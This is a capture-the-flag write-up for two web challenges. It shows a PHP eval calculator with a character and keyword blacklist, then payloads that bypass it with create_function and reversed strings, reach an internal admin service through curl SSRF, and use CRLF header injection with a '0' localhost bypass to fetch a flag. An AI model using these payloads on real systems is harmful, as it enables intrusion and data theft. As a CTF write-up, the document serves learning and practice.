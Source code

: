 ### Lame Calc V2 (679 pts)

Given an attachment file server.zip with this directory tree
```
./server
├── docker
│   ├── admin
│   │   ├── Dockerfile
│   │   └── main.py
│   ├── nginx
│   │   └── Dockerfile
│   └── php
│       └── Dockerfile
├── docker-compose.yml
└── public
    └── index.php
```

And this is the source code for index.php

```
<?php
 
       if (isset($_POST["equation"])){
           $eq = $_POST["equation"];
 
           if (strlen($eq) > 265){
               die("Too long !");
           }
 
           if(preg_match("/\~|\||\[|\]|\`|\'|\||\^|}|{|;|@|&|#|!|\>|\?|\</i",$eq)){
               die("Bad Char !");
           }
 
           $blacklist = "include|read|all|open|file|dir|opt|glob|object|iter|eval|return|field|close|set";
 
           if (preg_match("/$blacklist/i", $eq)){
               die("Bad Word !");
           }
           eval("echo " . $eq . " ;");
       }
       ?>
```
It is the same with before instead, this challenge is more restricted than before

From that source code, we know that our restriction is
1. Length our input must be under 265
2. We cant use `"~|[]``'^}{;@&#!>?<"`
3. Our input cannot contains with this words `"include|read|all|open|file|dir|opt|glob|object|iter|eval|return|field|close|set"`

After that our input will be evaluated by application.

Our next restriction is `disable_functions`. filesystem functions, shell functions, and phpinfo, and extract are restricted too.

#### Solving the Problem
1. Length and Regex Restriction.
Because the limit for length is increased to 265, We were able to bypass length and regex restriction using a callback function, we will use `create_function`
```
POST / HTTP/1.1
Host: 103.152.242.222:20000
… < snip - snip > …

equation=create_function("",strrev("lave")."(".strrev("TSOP_$")."\x5b\"x\"\x5d)\x3b")()&x=include(‘/secret_for_admin.txt’)
```
2. Accessing the different service docker.
```
POST / HTTP/1.1
Host: 103.152.242.222:20000
… < snip - snip > …

equation=create_function("",strrev("lave")."(".strrev("TSOP_$")."\x5b\"x\"\x5d)\x3b")()&x=$ch = curl_init();
        curl_setopt($ch, CURLOPT_URL, "http://admin:5000/admin_gan");
        curl_setopt($ch, CURLOPT_HTTPHEADER, array(
    'X-Admin: t45dasqasfirkiww'));
curl_setopt($ch, CURLOPT_POST, 1);
                curl_setopt($ch, CURLOPT_VERBOSE, 1);
curl_setopt($ch, CURLOPT_POSTFIELDS,
            "action%3d1%26value%3d/");        
        var_dump(curl_exec($ch));
var_dump(curl_error($ch));
        curl_close($ch);
```


### Sicilian Dragon (698 pts)
We didn't get any information regarding this challenge.

After doing some information gathering, we could make this conclusion :
1. `/flag` only available for local
2. There's restriction input for `localhost`

#### Solving the Problem

1. We were able to bypass the `localhost` restriction using `0` for accessing the local network.
2. Since we need to send header `admin`, so we could assume it must be CRLF Injection.
3. This will be our final payload.
```
POST /fetch HTTP/1.1
Host: 103.152.242.222:20001
… < snip - snip > …

is_https=0&host=0&port=20001&path=%2Fflag&method=GET /flag HTTP/1.1
admin: 2f01e10c-206b-4de5-8fa0-f7d929b263da
TEST: 123
```